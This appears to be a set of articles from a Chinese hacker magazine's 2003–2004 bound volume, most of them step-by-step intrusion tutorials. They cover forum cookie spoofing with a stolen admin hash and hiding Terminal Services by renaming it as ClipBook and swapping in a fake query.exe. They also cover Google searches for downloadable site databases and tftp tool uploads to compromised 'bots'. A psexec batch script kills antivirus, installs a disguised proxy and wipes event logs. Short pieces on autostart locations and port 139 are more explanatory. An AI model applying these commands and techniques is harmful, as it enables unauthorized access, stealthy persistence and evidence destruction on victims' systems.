我们得到对方计算机的管理员账号之后，通常会在特定的时间给对方计算机开一个后门，而SchedExec就是一个利用主机的Task Scheduler服务在主机上启动程序的小程序，它的功能和流光种植者是一样的。要注意的是，该程序需要获得远程计算机管理员的账号，且远程主机必须启动Task Scheduler服务，如果是XP系统，那么它的本地账户的共享和安全模式必须为经典模式。

SchedExec的界面如图5所示，我们只需输入主机的IP地址和管理员的账号密码，然后在“本机文件”里选择要上传到对方计算机上的文件，最后按“开始”按钮即可。


图 5

### 4. Cookie 编辑利器——IE CookiesView

曾经在论坛上看到这么一个 问题：得到论坛管理员的MD5密码后，怎么修改IE的Cookie进行Cookie欺骗？

其实，用IECookiesView就可轻松实现。IECookiesView是个专门用于编辑IE的Cookie的小程序，下面我就介绍一下怎样使用它来进行Cookie欺骗。

假设我们已通过漏洞得到《黑客X档案》论坛管理员“土豆”的MD5密码，而且我们在该论坛登陆过并在登陆时选择了保存Cookie（至于你选择的是保存一天还是一年，这无关紧要）。打开IECookiesView后，找到储存了自己账户在论坛上的选项（图6），再用鼠标右击下面的选项，选择“编辑Cookie的内容”。这时，会出现一个显示我们账户信息的窗口，这些信息包括我们在论坛上的ID、等级和密码等（图7）。


图 6


图 7

接着，我们只需把里面的“userclass”改为“管理员”，把“username”改为“土豆”，然后再把“password=”后面的MD5密码换成我们所得到的密码。此时登陆上论坛试试，如无意外，你便以土豆的身份出现了。当然，如果你嫌麻烦，那就把刀子架在土豆的脖子 上，逼他说密码就可以了，嘿嘿！

好了，此次给大家介绍的“奇门兵器”就完了。在茫茫网络中这类小黑软远不止上面提到的几个，你要是找到了更好的东东，别忘了拿出来分享哦！

（注：以上所提软件光盘中均有收录）


# 傻瓜黑客

### 用Win 2000终端服务实现的入侵

**李勇**

先让我们看看哪些地方可较明显地发现终端服务的痕迹。

1. 任务管理器里的termsrv.exe进程（图1），termsrv.exe是终端服务的进程名。


**图1**

2. 在netstat -an命令下（图2）。

```
TCP    0.0.0.0:3389    0.0.0.0:0    LISTENING
```

**图2**

3. 在“控制面板→管理工具”里。四个与终端服务有关的图标大摇大摆躺在那里呢（图3）！


**图3**

4. 在“开始→程序→管理工具”里（图4）。


**图4**

5. 在“控制面板→管理工具→服务”里（图5）。一目了然。


**图5**

6. 在net use命令下，那个“tsinternetuser”用户告诉管理员什么（图6）？

```
C:\>net user
\WEB-BAK 的用户帐户
-------------------------------------------------------------------------------
Administrator    Guest    IUSR_WEB-BAK
IWAM_WEB-BAK     songdz   TsInternetUser
命令成功完成。
```

**图6**

7. 在“控制面板→添加/删除程序→添加/删除Windows组件”里（图7）。


**图7**

8. 最致命的是query user命令（图8），有的高手自以为天衣无缝，无懈可击。在query user命令下，你的一切努力都付诸东流。

```
C:\Documents and Settings\Administrator>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 power                 rdp-tcp#1           1  Active          .  2003-10-9 20:15
```

**图8**

9. 还有日志（图9）。

| 引 源 | 日期 | 时间 | 来源 | 类别 | 事件 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 信息 | 2003-10-7 | 23:00:30 | TermService | 无 | 无 |
| 信息 | 2003-10-7 | 23:00:30 | TermService | 无 | 无 |
| 信息 | 2003-10-7 | 23:00:27 | TermService | 无 | 无 |

**图9**

10. 还有一些不明显的地方。不想说了（卖个关子^_^）……

下面随我一步步地将上面的一切消失！

先要说明一下，我们要面对的终端服务有两种类型：第一种是主机根本没有安装终端服务，第二种安装了终端服务，但设为“禁用”。

那种直接删除终端服务的方法对第二种情况不适用。若管理员发现原本有的终端服务突然“蒸发”，一定要产生怀疑！针对第二种情况我们还要伪造一个假的属性，设为“禁用”的终端服务。对应的程序仍然是termsrv.exe。下面我们来对付第一种。

首先，我们要得到目标主机的一个shell，方法有很多。可用最古老的IPC$入侵，也可用SQL弱口令入侵、溢出攻击，甚至“爆破”23端口等。我最爱用溢出攻击，因为这类攻击很难防御。去www.hk20.com看看收集的溢出程序，你一定大有所获。

我用554端口溢出了一台。具体过程就不在此多说（网上有很多这类教程）。

用net start termservice和net user刺探一下（图10，图11）。

```
C:\>net start termservice
系统发生 1058 错误。

无法启动服务，原因可能是它被禁用或与它相关联的设备没有启动。
```

**图10**

发现没用tsinternetuser这个帐户，一般情况下，表明没有安装终端服务。若要更进一步了解清楚终端服务的安装情况，可上传一个“灰鸽子”或“vnc”之类的通过图形界面去了解清楚。

上传工具3389.exe，instsrv.exe、pulist.exe、findpass.exe、ntlm.exe。我上传工具一般用tftp的方法（图12），一般不用ftp，原因有二：（1）不用输用户名和密码；（2）在种溢出的命令窗口里用ftp的方法很难成功。如果用tftp的方法出现“time out”的提示，先net start telnet，再telnet进入。在telnet窗口里用ftp的方法就可解决“time out”的问题。

```
C:\>tftp -i 61.139... get instsrv.exe
Transfer successful: 63488 bytes in 27 seconds, 2351 bytes/s
C:\>tftp -i 61.139... get 3389.exe
Transfer successful: 31744 bytes in 14 seconds, 2267 bytes/s
```

**图12**

# 傻瓜黑客

用pulist.exe和findpass.exe配合读出管理员的密码（若有时读不出，只有新建一个或把guest提升为管理员再激活），然后用3389.exe开启终端服务（图13），这个3389.exe在www.cnse8.com有下载。用3389.exe开启的终端服务有几点特点：在添加和删除中看不出终端服务被安装的痕迹，也就是启动终端前不会打勾；安装完终端后会删除在管理工具中的终端快捷图标。

重启后，用xptsc终端连接器连接进入。进入后可在任务管理器里发现termsrv.exe进程，可用netstat -an命令看到3389端口，用query user命令看到终端连接情况。下面进入最精彩的操作。

进入“控制面板→管理工具→服务”，发现一栏“Terminal Services”服务，属性为自动。我们的思路是：把一个ClipBook服务变成终端服务，当然也可用其它服务变为终端服务，这一点我在《黑客X档案》2003年第9期71页的“偷梁换柱——更加隐蔽的3389技巧”一文中有过简单论述。因为没有配插图，有些黑友反映没有看懂，所以这次我配上了截图。ClipBook服务在一般情况下没有启动。属性为手动，若属性为自动，则要把它的属性改为手动。

还有重要的一步，把telnet服务的属性改为自动，然后再启动telnet服务。

回到“运行”，输入“cmd”，打开命令提示窗口，运行ntlm.exe程序，取消ntlm身份验证。执行net stop telnet后，再执行net start telnet，如图14。

把这一切都搞定后，重启电脑（心中祈求管理员不在`-_-`）。等到电脑重启后，以telnet方式进入（图15）。然后按以下步骤操作：

```
欢迎使用 Microsoft Telnet 服务器。

C:\>
```


1. 移除ClipBook服务和termservice服务。

```
instsrv clipsrv remove
instsrv termservice remove
```

2. 删除ClipBook服务对应的clipsrv.exe（图16）。注意，要删除二个clipsrv.exe，一个在c:\winnt\system32\目录，另一个在c:\winnt\system32\dllcache\目录下。

```
C:\>del c:\winnt\system32\clipsrv.exe
C:\>del c:\winnt\system32\dllcache\clipsrv.exe
```


3. 把termsrv.exe重命名为clipsrv.exe（如图17，用ren c:\winnt\system32\termsrv.exe clipsrv.exe命令）。注意：若重命名出现错误，用dir /s clipsrv.exe找出来，再删除即可。

```
C:\>ren c:\winnt\system32\termsrv.exe clipsrv.exe
```


4. 现在可建立具有很大迷惑性的终端服务了。如图18。

```
C:\>instsrv "ClipBook" c:\winnt\system32\clipsrv.exe
```


5. 这个建立好的ClipBook服务其实就是我们的终端服务。用net start启动“ClipBook”服务。 “ClipBook”终端服务已变为ClipBook服务了，我们再用xptsc连接进入看看，可看到ClipBook服务属性变为自动了（图19）。这样的终端服务你能认出来吗？

还有一个端口很讨厌——3389，现在用netstat -an看一下主机端口的分布情况，不要造成端口冲突。因为要有很大迷惑性，所以我用1085端口，很难发现喔（图20）！


```
TCP    0.0.0.0:1079           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1082           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1085           0.0.0.0:0              LISTENING
TCP    0.0.0.0:1096           0.0.0.0:0              LISTENING
```


为使1085端口生效。哎，痛苦。还要重启一次！

然后再用xptsc连接进入。到处看一下，什么也看不见，整个世界清净了。不，还有一个query user问题没解决。好办！去www.nettsll.com下载一个query.exe，这个query.exe有什么用？看看关于这个网站的广告：

“一个假的query.exe，不管我们用什么办法安装终端，怎么隐藏安装的痕迹，当管理员在命令行运行query user时，一切都暴露了。将query.exe COPY到肉机的system32下，替换正版query.exe。这样，管理员运行query user就会出现。这个工具需要运行终端服务，将终端服务更好的隐藏起来。”

接下来该怎么做，不用我说了吧！不过给大家提个醒：要把原来的query.exe删除，也要删两个地方：c:\winnt\system32\query.exe和c:\winnt\system32\dllcache\query.exe。

图21是成功替换的截图。

```
C:\>query user
这个工具需要运行终端服务。
\.\.\.
```


最后是克隆帐户，擦PP之类！这样的肉鸡用上一年半载也不成问题。

第二种情况在网上更为常见，一般是Win2000高级服务器版。在安装时如果用缺省安装，在“服务”会有一项“Terminal Service”，属性为“禁用”，用net user命令时有一个tsinternetuser帐户。如果这时直接把“Terminal Service”属性改为“自动”，再启动Terminal Service服务将不会成功。出现的提示如图22。


此种情况安装的电脑在其它地方并没有终端服务的痕迹，即前面没有小勾，没有快捷方式之类。我常用的做法是溢出进入后上传radmin的服务端，有四个文件：r_server.exe、radmin.reg（这个先在在自己的机器上设置并安装服务端后从注册表里导出）、

# 傻瓜黑客

admdll.dll、raddrv.dll。
上传完后第一步执行：regedit /s radmin.reg
第二步执行：r_server /install
第三步执行：net start r_server
服务端启动后，用radmin客户端连接过去，输入你设定的密码，进去看个清楚。看一看它的终端服务处于那种状态。废话少说，直奔主题。
C:\>ren c:\winnt\system32\3389.exe termsrv.exe
C:\>instsrv "Terminal Services" c:\winnt\system32\termsrv.exe
The service was successfully added!
Make sure that you go into the Control Panel and use the Services applet to change the Account Name and Password that this newly installed service will use for its Security Context.
C:\>_


第二种情况的处理办法和第一种的关键区别在于：第一种是直接删除终端服务，第二种在把“BookClip”服务变为终端服务后，删除系统中原有的termsrv.exe，然后“就地取材”把刚上传的一个3389.exe重命名为termsrv.exe。此次我把3389.exe传在c盘，要先复制到c:\winnt\system32下，再重命名，如图23。

```
C:\>del c:\winnt\system32\termsrv.exe
C:\>del c:\winnt\system32\dllcache\termsrv.exe
C:\>copy 3389.exe c:\winnt\system32
已成功复制一个文件
c:\>ren c:\winnt\system32\3389.exe termsrv.exe
伪造一个假的终端服务（图23）：
c:\>instsrv "Terminal Services" c:\winnt\system32\termsrv.exe
```

当然不要启动，也不可能启动成功。
用xptsc连接进入后，“服务”会有一项“Terminal Service”。不过这是一个假的，用来迷惑管理员。把属性设为“禁用”，再在“属性→描述”里填上相应的语句（图24），最后再改端口。这样处理的肉鸡不会产生终端服务的日志。


大体就这样，还有一些小的地方要处理。如消除新建帐户的根目录、用psu.exe手动克隆、或用ca.exe克隆等。最后还要“重加固”、“精装修”、“查漏补缺”，严防其他黑客闯入等。
总之，要弄到一只较完美的肉鸡，至少要花二、三小时，甚至更多的时间。所以我舍不得把我的肉鸡给别人（要很多银子，网费不少啊^_^）。由于时间紧迫，有错误的地方还请读者朋友们指正！

## Google 的几种另类利用

如今的Internet，如果没有Google很难想象会是什么样？Google给网民带来的便利与效率是难以用数字来衡量的。然而，作为当今世界上最强有力的搜索引擎，Google在为人们提供诸多便利的同时，也成为了我们这些“坏孩子”的网络利器。用Google还能搜到什么？搜了才知道！

### 一、搜索活跃网段


想必菜鸟们闲来无事时，都有大面积搜索弱口令的“职业病”，所以找到一个活跃的IP段（即有大量活主机的IP段）就显得尤为重要。因为谁也不希望自己的扫描只是徒劳，但如何才能找到一个活跃的IP段呢？还是老一套按照IP地址表机械地扫？那样做是没有效率的，因为IP地址表只是告诉你哪个IP段分配给了哪些地区，并没有告诉你哪个IP段是活跃的，如果一段的试只会浪费时间。那该怎么办？用Google搜吧！
我来举个例子：假设我想找几个有弱口令的台湾肉鸡，那么就在Google上输入“.tw”这三个字符，出现了什么？自己去搜搜看！你会发现Google找到了很多以.tw作为域名结尾的网站（图1）。显然，这些都是台湾的网站，接下来我随便ping一个域名，以便得到它的IP地址。


以www.abit.com.tw为例，我ping出它的IP地址是202.168.
黑客X档案 2003 2004年合订本(下册)
1

# 傻瓜黑客

194.181，接着我用 SuperScan 来扫其所在的一个 c 段或连续的几个 c 段。图 2 是我扫描其所在 c 段的主机 80 端口的结果，扫到了 82 个开放端口，说明这个 c 段至少有 82 台活动的主机。因为有些活动主机可能未开放 80 端口，可见这个网段的主机数还不止 82 个，看来这个 IP 段质量还不错！

一般来讲，这个 c 段的主机都应该是台湾主机，不会有很大偏差。当然，这只是一个例子，并不是说每个域名都能找到活跃的网段，有时可能运气会很差，怎么办？凉拌，多搜几次应该会好的吧！以此类推，你如果想找韩国或日本的网段，可以用 Google 搜一下 “.kr” 或 “.jp”。不过从我的经验来看，还是台湾的活跃网段好找些！

### 二、搜索网络程序

利用程序漏洞来渗透主机权限是近来较流行的人侵方法，因而一些出现了漏洞的程序便成了大家频繁造访的对象，如动网论坛、金梅电影程序等。那么，在浩瀚的网络中，我们怎样才能快速而准确的找到大量正在使用这些程序的网站呢？不用说了吧！自然还是用 Google。

如果你想找一些动网论坛，那么可在 Google 中搜索 “dvbbS/index.asp” 这几个字符，这种搜索方法是利用了动网论坛的目录特征；如果你希望搜到特定版本的动网论坛，可在 Google 中搜索 “Powered by: Dvbbs Version 6.0.0” 或 “Powered By: Dvbbs Version 6.1.0” 等。这样，你就可分别搜索到 6.0 和 6.1 版本的动网论坛，这种搜索方法利用了动网论坛的版权特征。因此，找出程序的特征是搜索的关键，这些还需要大家在实战中多多留心。

需要指出的是，通过这种方法我们的确能在短时间内找到大量的目标程序，但它们是否存在漏洞或已经打了补丁，就需要你去进一步测试了，想吃免费的午餐不是那么容易哟！

### 三、搜索 mdb 数据库

从 Google 上搜索可下载的 mdb 数据库我想大家还是比较熟悉的，利用这种方法人侵实在是简单至极，你只需用 Access 打开这个数据库就可以了。如果管理员密码是明文存放的，那你就赚到了。即使没有密码，如果这个数据库存放了一些敏感文件，我们也是不会嫌弃它的。但随着现今人们安全意识的提高，国内一些知名程序的数据库都是加密的，如动网论坛的数据库是经过 MD5 不可逆加密的（图 3）。这样，即使你得到了这个数据库，除了暴力破解毫无办法。


图3

说了这么多，还没说如何搜索呢？最普通的方法是搜 “*.mdb”，不过推荐大家搜 “data/*.mdb”，成功率会高些。如果你想搜论坛的数据库，还可以搜 “bbs/data/*.mdb”，不过这种搜索方法会搜到大量的无用信息。下面我给大家开一个独家秘方，还是以动网论坛 ver 6.0 为例，我们从它的 conn.asp 源文件得知它是这样打开数据库的：

```vb
dim starttime,endtime,conn,connstr,db
starttime=timer()
'更改数据库名字
db="data/dvbbs6.mdb"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
conn.Open connstr
```

那么，我们如果搜索 “Data Source=” & Server.MapPath” 这几个字符会有怎样的结果呢？嘿嘿，试试看，还真有不少好东西，而且搜索结果的含金量远比前一种方法要高，图 4 是我随便抓的一个搜索结果。


图4

我们在 IE 地址栏内输入 “www.sph.org.uk/database/sph.mdb”，看看有什么反应（图 5）。不用我多说了吧，成功得到数据库。还有一些网站是用如下方式连接数据库的：

```vb
dim conn,connstr
on error resume next
connstr="DBQ="+server.mappath("database/data.mdb")+";
DefaultDir=;DRIVER={Microsoft Access Driver (*.mdb)};"
Set conn=Server.CreateObject("ADODB.CONNECTION")
conn.open connstr
```

如果搜索 “connstr="DBQ="+server.mappath”，同样会硕果累累的！经过几次测试，我发现网上可下载的数据库还真多。所以，再次呼唤各位管理员大人，一定要把数据库改为 .asp 格式哟！


图5

### 四、搜索 CGI 漏洞和 3389 机器

虽说用 Google 可搜到一些较老的 CGI、ASP 漏洞，但由于速度慢，无用信息多，所以这种方法几乎没有什么实际意义了，况且这些老漏洞对我们不再有吸引力，在此就不多说了。

由于提供远程桌面网络连接的站点（图 6），其 TSWeb/default.htm 文件的默认标题（<title>与</title>之间）为 Remote Desktop Web Connection，所以在 Google 中输入 “intitle:Remote Desktop Web Connection” 可搜到不少开 3389 端口的服务器。不过，这虽然没有使用 SuperScan 搜 3389 端口的效率高，也没多大实际意义，但我觉得这毕竟是种启发，举一反三，也许以后会有更好的思路。


图6

### 五、结束语

Google 的另类利用还不只这些，希望大家多多去探索和发现，如果你有更另类的用法，一定要拿出来分享哟！


## 谁悄悄开启了你的门
### ——浅析Windows中的自启动

edfi 周群益

任何一个操作系统（无论是Windows还是Linux）在启动时都会调用一批程序，使系统能初始化并提供一系列的功能。在Windows操作系统中，就提供了一套运行方案，使第三方程序能正常运行。因此，不论是木马还是病毒，在编写初衷都希望能在肉鸡上使用，以便在下次启动系统时运行，从而达到控制系统的目的。

从另一方面看，通过查看系统启动时运行的程序，可在一定程度上了解你是否中了病毒或木马。在Windows系统中，启动程序主要分两类：服务与启动项。

### 启动项

启动项是系统通过读取系统特定的信息，得到系统所要运行的程序。对于一般我们要了解的有注册表里的如下部分：

`HKEY_LOCAL_MACHINE\Software\CurrentVersion\Windows\Run`

`HKEY_LOCAL_MACHINE\Software\CurrentVersion\Windows\RunOnce`

`HKEY_LOCAL_MACHINE\Software\CurrentVersion\Windows\RunService`

`HKEY_CURRENT_USER\Software\CurrentVersion\Windows\Run`

……（省略部分）

还有“开始→程序→启动”等地方。

> **小知识** 启动程序的启动分全局和用户，“全局”是指不论计算机用什么用户登陆都启动（如HKEY_LOCAL_MACHINE）；而“用户”则是指使用指定的用户登陆才运行的程序（如HKEY_CURRENT_USER）。

但这些信息是如此分散，想把它们都浏览一遍很麻烦。

幸好微软公司察觉到了这一点，提供了两个工具：MSCONFIG.EXE和MSINFO32.EXE。其中，MSCONFIG.EXE 还可取消启动项目（图1），而MSINFO32.EXE比MSCONFIG.EXE更加详细（图2）。


### 服务

为了更好的组织Windows自带的启动项目和提供启动程序更高的权限（因为启动项提供的最高权限是Administrator，而一些操作（如用户操作）需要更高的SYSTEM权限，这也是在任务管理器中识别程序是怎样启动的一个快速方法），Windows NT（包括WindowsXP/2000等都是Windows NT演化过来的）提供了服务的运行方式。因为Windows自带的服务很多，在里面插几个与Windows自带服务名很接近的服务，一般用户很难察觉。所以，现在很多新的木马都利用服务方式来启动。

> **小知识** 快速地分辨哪些服务不是Windows自带的呢？不知道你仔细观察过服务描述没有？一般地，不是Windows自带的服务，描述要么是空白，要么是全英文的（特别是国外的蠕虫）。

从图3可以看到我中了蠕虫！


# 傻瓜黑客

### 新病毒普遍启动的地方

现在，99.9%的蠕虫和木马都是以上的形式启动的。但有一些新的启动方式不知道大家有没有留意到？到了Windows2000，出现了一个新功能——组策略（gpedit.msc）。它除了提供系统很多方面的微调外，还提供了新的程序启动方式。在“组策略→计算机配置或用户配置→管理模块→系统→登陆→在用户登陆”时，运行这些程序你也可以实现程序启动。对应注册表为：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Group Policy Objects\本地Machine\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run（图4）

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Group Policy Objects\本地User\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

不知道什么原因，这里的程序在MSCONFIG.EXE，MSINFO32.EXE中都查不到。这也是我单独说出来的原因。

### 非常隐蔽的启动方式（四）

不知大家使用过CHKDSK没有？如果你输入CHKDSK %systemdrive% /f时，它会告诉你有不能检查，并询问你是否计划下次启动检查。如是确定，下次启动时会出现图5所示画面。


很显然，系统在启动时调用了一个类似CHKDSK的程序（后面就知道了），而且这个程序肯定具有Administrator以上的权限。用注册表监视软件很快就能得出启动的键值：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\BootExecute
```

这个键值默认是：

```
PDBoot.exe
autocheck autochk *
```

当启动CHKDSK计划时加入“autocheck autochk /p \??\J: ”。其中，PDBoot和autochk都是程序。但如何编写我就不清楚了（直接在Windows CMD Shell中不能运行，用16bit的程序编译的程序也不能运行），希望有高人指点！

## 悄悄开启了你的门
### ——浅析Windows中的自启动


Kigdwss

在人侵过程中，大部分朋友连上肉鸡后，总会上传一些常用的小工具，有的是通过FTP或TFTP方式上传，有的则直接在肉鸡上下载。如果你只需传少数几个工具，直接用这些方法也未曾不可。不过，如果你需要传的工具较多，而且扩展名不一样，或者你下载了软件而肉鸡没有安装WinRAR等解压软件时，直接用上述方法就不好处理了。这时你可以试试WinRAR的自解压功能。

### 准备工作

WinRAR V3.20 简体中文版：我个人感觉比WinZIP好用，用它的自解压功能可把许多软件压缩成exe格式的压缩包。这样，直接运行该exe文件就可解压了，即使对方没有装WinRAR也照样可以解压，非常适合在没有安装WinRAR的肉鸡上使用。

### 创建自解压

好了，软件先介绍到这里，下面我就以传送ca.exe、cca.exe、c3389.exe、3389.exe这几个工具到肉鸡上为例，来说明一下

黑客X档案2003 2004年合订本下册

20

# 傻瓜黑客

自解压的运用。首先，在光盘中找到这几个软件并下载到电脑中的同一目录下，然后全部选中这些软件，再单击右键选择“添加到压缩文件…”。这时会出现“压缩文件名和参数”对话框（图1），在“压缩选项”中选择“创建自解压格式压缩文件”，这时“压缩文件名”处会自动从“.rar”变为“.exe”。这里我把自解压命名为“3389tools”。


接下来切换到“高级”这一项，点击“自解压选项”（图2），出现“高级自解压选项”对话框，在“解压路径”中选择“在当前文件夹中创建”，然后切换到“模块”这一项，选择“WinCon.SFX”这一模块（图3）。选好后点击“确定”，这时会回到“高级”选项，点击“确定”即会生成“3389tools.exe”自解压缩包。挺简单的吧！下面咱们把它传到肉鸡上去。


### 上传工具

首先，在本机上把Tftp32这个小工具和3389tools这个自解压文件放在同一文件夹中，然后打开Tftp32，这时你的机器就是一个Tftp服务器了。接下来我们telnet上肉鸡，切换到保存软件的目录，使用命令：`tftp -i 你的IP get 3389tools.exe`
过一会儿就会提示传送完成（图4）。接下来你可以用命令`dir 3389tools.exe`来查看一下，结果表明上传成功（图5）。下面咱们将它解压吧！


如果你是通过终端服务连接肉鸡的，则双击3389tools程序就行了。如果是通过telnet等非图形界面操作肉鸡的，则在CMD下输入文件名就OK了，我这里输入的是3389tools.exe。此时，你会看到解压过程（图6）。


OK！上传工具完毕，接下来该干什么干什么去吧！
（光盘中收录以下软件：WinRAR V3.20 简体中文版、3389、C3389、Ca和CCa、Tftp32）


通过139端口，即利用文件共享进入远程Windows系统，可以说是最直接有效的方法了。相关的讨论在不同的网站、杂志和书籍中都有出现。不幸的是，高手们大多认为此法过于简单，讨论时往往一带而过。而且其中还充满了大量术语，如SMB、NETBIOS、NETBEUI等，这可苦了我们超级菜鸟了。尤其是看了《黑客X档案》2003年第三期PYTHON的“杂谈139端口”一文后，我更觉得困惑了。要利用文件共享，到底需要满足哪些条件呢？这里，我把自己实际测试的一些结果与心得贡献给大家，希望通过共同讨论，使相关问题更加清楚。

要实现文件共享，首先要打开139端口。对此，一般的做法是启用“网络客户端”（Win98里称为“Microsoft网络用户”）和“NETBIOS over TCP/IP”。而“杂谈139端口”一文里说：“139端口是在系统安装NETBEUI协议后才开放的端口”，和我平素的做法不一致。也许两者皆可？我是拨号上网，就先用Win98试试吧！

Win98默认是打开139端口，首先要先将它关闭。
试着删除网络客户端，结果不行（这说明网络客户端与139端口无关）。停用


“NETBIOS over TCP/IP”如何？但TCP/IP属性里的相关项目被勾选上了且是“灰色”的（图1）。我试着将“TCP/IP属性→绑定”里所有项目的打勾取消（图2），意外地发现“NETBIOS over TCP/IP”被停用了（图3），同时139端口也关闭了。


现在可以安装NETBEUI了（如图4，系统可能会自动启用“NETBIOS over TCP/IP”，请按前面的方法将其停用），同时将其与网络客户端绑定。上网后用netstat -an命令查看，139端口并未打开（图5）。

多了，只需选择“TCP/IP 属性→高级→WINS”里的“禁用TCP/IP上的NETBIOS”就可以了（图8），不像Win98需要重新启动系统。


启用“NETBIOS over TCP/IP”，上网再看，这回139端口打开了（图6）。删除NETBEUI再看，139端口依然开放（图7）。


好了，我们终于可以得出结论，启用（或停用）“NETBIOS over TCP/IP”是打开（或关闭）139端口的充分必要条件，与NETBEUI无关。


另外，WinXP/2K同样也是默认启用“NETBIOS over TCP/IP”，即打开139端口。不过，要关闭它比在Win98上容易


打开139端口并不等于就可以实现文件共享，一般来说，远程系统（以WinXP为例）必须启用“网络的文件和打印共享”（图9），并将某些磁盘或目录设置为共享。同时，本地系统必须启用“网络客户端”（图10）。反过来说，关闭139端口是不是就可以阻止文件共享呢？WinXP/2K中445端


口默认是处于监听状态（图11），它会不会接着139端口呢？如果是，又当如何关闭它？还请高手指点！我采用的是一权宜之计，即打开139端口来抑制对445端口的连接，毕竟我对139端口了解得更多些。

顺便说一下，我按照PYTHON的方法用net send 127.0.0.1 hello给自己发送了一条信息，成功后用netstat -an并没有看到139端口被启用（图12）。并且，我关闭139端口后在网上冲浪，不时会收到别人用net send发来的信息。因此，我猜想Messenger服务与139端口无关。


由于自身条件所限，还有许多困惑无法用试验来澄清。比方说“系统默认共享”（admin$，ipc$等），是否通过139端口起作用？在WinXP上也可被利用吗？希望本文能起到抛砖引玉的作用。

### 侧影侧影

黑客X档案 2003 2004年合订本(下册)

## 万物皆实现 免费上网

无心

废话少说，想免费上网吗，Come on! 首先，确定你的宽带网络接入商，如长城、电信、网通、铁通等。如果你是用ADSL或拨号上网，对不起，本文恐怕不能帮你什么忙，还是多赚点银子交上网费吧：）

本文所默认的操作平台是Win2000 Server

1.点击“开始→运行→cmd”，键入ipconfig，找到你的IP地址（图1）。

```
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\Documents and Settings\administrator>cd c:\

C:\>ipconfig

Windows 2000 IP Configuration

Ethernet adapter 本地连接:

        Connection-specific DNS Suffix  . :
        IP Address. . . . . . . . . . . . : 192.168.0.3
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.0.1
```

图 1

2.在命令行中输入 net view，显示与你同网段的机器（图2）。需注意的是，不同的宽带接入商对入网的验证方式不一样，有的直接给你一个出网验证账号及密码，你要登录到其公司主页上验证出网，这种方式是最简单的，因为你已经获得了一个外网的IP地址；其他的可能采取的是IP地址或其他方式验证，这种方式要复杂些，一般是宽带服务商给你一个固定IP地址，实际上就是一个局域网的IP地址，这需要你找出其使用的IP地址范围。本文写作的基础是前一种上网验证方式，如果有朋友使用后一种或其他上网验证方式，请自行测试。
C:\>net view
服务器名称            注释
-----------------------------------------------
\\CLIENT


命令成功完成。
图 2
图3.找出你能够控制的机器。于是至是

使用弱口令还是系统漏洞等手段，要看你自己了。本文假设被控电脑的IP地址为192.168.0.5，管理员用户名为：administrator，密码为123456。

4.工具准备：pslist.exe、kill.exe、snake代理跳板、ultraedit、sockscap以及elsave。使用snake代理最大的好处就是可进行命令行安装，这也是snake代理较其他所谓的商业proxy优秀的原因之一。

5.为增强迷惑性，修改snake的SkSockServer.exe（对不住啊，snake，谁叫你那么大名气，你的东东已经被杀毒软件列为通缉要犯了，不改没办法啊）。

（1）将SkSockServer.exe改名为rundll32.exe，当然也可改为其它名字，原则只有一条——具有迷惑性。更名的好处我想大家都知道吧！如果在被控电脑的任务管理器中出现SkSockServer进程，稍微有点电脑常识的人都知道把它KILL了。

（2）用ultraedit打开更名后的SkSockServer.exe（即rundll32.exe），查找字符串“skserver”，全部替换成“winlogon”（图3）；

查找“Snake SockProxy Service”字符串，替换成“Rising update service”（图4）。

需要注意的是，用来替换的字符串与被替换的字符串的长度一定要相等，如果找不到相等的字符串，可以多加空格代替，否则修改后的程序将不能运行（“Snake SockProxy Service”将出现在对方服务列表里，改个比较安全的名字）。


图 3

6.按如下样式写批处理，存为11.bat。本文假定已经知道被控电脑杀毒软件为瑞星，在实际操作中先需要知道被控电脑使用的杀毒软件，只需将psexec \\%1 -u administrator -p 123456 ps.exe及这以

前的命令另存为一个批处理文件就行了。


图 4

```
net use \\%1\ipc$ 123456 /user:administrator
copy pslist.exe \\%1\c$\winnt\system32\ps.exe
copy kill.exe \\%1\c$\winnt\system32\pk.exe
psexec \\%1 -u administrator -p 123456 ps.exe
//显示被控电脑进程，并找出杀毒软件进程
psexec \\%1 -u administrator -p 123456 pk.exe ravs.exe -f
//假设对方的杀毒软件为瑞星，杀掉！
copy rundll32.exe \\%1\c$\winnt\system32\drivers\rundll32.exe
//拷贝rundll32.exe到被控电脑的系统目录，system目录下有个rundll32.exe，所以拷贝到其下的一个文件夹
psexec \\%1 -u administrator -p 123456 c:\winnt\system32\drivers\rundll32.exe -install
psexec \\%1 -u administrator -p 123456 c:\winnt\system32\drivers\rundll32.exe -debug -starttype=2
psexec \\%1 -u administrator -p 123456 c:\winnt\system32\drivers\rundll32.exe -debug -port 7749
psexec \\%1 -u administrator -p 123456 net start winlogon
del \\%1\c$\winnt\system32\pk.exe
del \\%1\c$\winnt\system32\ps.exe
del \\%1\c$\winnt\system32\drivers\rundll32.exe
//删除掉拷贝到被控电脑的东东
elsave -s \\%1 -l application -C
elsave -s \\%1 -l security -C
elsave -s \\%1 -l system -C
//擦屁股
```

批处理中的几条命令说明如下：

```
psexec \\%1 -u administrator -p 123456 c:\winnt\system32\drivers\rundll32.exe -install
//用于安装Snake的代理服务；
psexec \\%1 -u administrator -p 123456 c:\winnt\system32\drivers\rundll32.exe -debug -starttype=2
//用于配置代理服务的启动为自动
psexec \\%1 -u administrator -p 123456 c:\winnt\system32\drivers\rundll32.exe -debug -port 7749
//配置连接端口为7749，你可以任意更改端口，10000以内的端口都可以，改为较高的端口可以避免被其他同行扫描到。当然，这只是相对的
```


# 傻瓜黑客

psexec \\% \-u administrator p123456
net start winlogon
//启动代理服务

有关 Snake 代理跳板的使用大家可以参考相关文章，本文不多作解释。

7. 在命令行中输入11.bat 192.168.0.5，等待1分钟。
